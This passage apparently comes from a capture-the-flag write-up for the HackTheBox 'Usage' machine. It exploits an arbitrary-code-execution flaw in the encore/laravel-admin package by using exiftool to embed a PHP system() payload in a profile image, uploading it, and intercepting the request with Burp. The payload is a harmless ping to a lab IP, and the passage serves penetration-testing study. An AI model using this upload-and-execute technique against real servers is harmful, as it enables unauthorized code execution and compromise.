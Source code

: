 
Next, There is a critical vulnerability in the encore/laravel-admin dependency. See [this link](https://security.snyk.io/vuln/SNYK-PHP-ENCORELARAVELADMIN-3333096?source=post_page-----f1c2793eeb7e-------------------------------- "Arbitrary Code Execution ")

The vulnerability says “Affected versions of this package are vulnerable to Arbitrary Code Execution due to unrestricted file uploads via the "user settings" interface. Users can upload and execute .php scripts on the affected server.” 

Download the current profile image > Use `exiftool -Comment="<?php system(\"ping -c 3 10.10.14.66\");?>" user2-160x160.jpg` to paste php code in the image. 

Upload the image with the script inside > 

<img src='/images/HTB_Usage/Screenshot 2024-05-22 102403.png'>

Intercept the submit request with burp > 

<img src='/images/HTB_Usage/Screenshot 2024-05-22 102512.png'>
